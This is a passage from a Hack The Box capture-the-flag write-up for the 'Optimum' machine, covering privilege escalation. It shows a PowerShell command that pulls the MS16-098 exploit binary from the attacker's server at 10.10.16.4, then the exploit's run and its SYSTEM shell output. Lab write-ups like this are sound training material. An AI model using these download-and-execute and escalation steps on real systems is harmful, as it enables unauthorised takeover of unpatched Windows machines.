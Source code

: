 To run the exploit, we need to get it on to the target machine for which we can start a python server on our local machine and then use PowerShell on the target machine to pull the file.

```
C:\Users\kostas\Desktop>powershell -c "(new-object System.net.webclient).downloadfile('http://10.10.16.4:8000/41020.exe', 'C:\Users\kostas\Desktop\exp.exe')"
powershell -c "(new-object System.net.webclient).downloadfile('http://10.10.16.4:8000/41020.exe', 'C:\Users\kostas\Desktop\exp.exe')"
```

All that we need to do now is just run the exploit.

```
C:\Users\kostas\Desktop>exp.exe
exp.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```

And there we get access as SYSTEM with which we can read the root flag.

## Some Key Points To Take Away

1. Always try to use different exploits. Make sure to read the versions and architecture that they work on (because on Windows if architecture is different then the exploit might not work)

2. If it looks like the exploit is not working even after making changes, move to the next available exploit.

## References

1. [Optimum](https://app.hackthebox.com/starting-point)
2. [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)](https://www.exploit-db.com/exploits/39161)
3. [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
4. [Microsoft Windows 8.1 (x64) - 'RGNOBJ' Integer Overflow (MS16-098)](https://www.exploit-db.com/exploits/41020)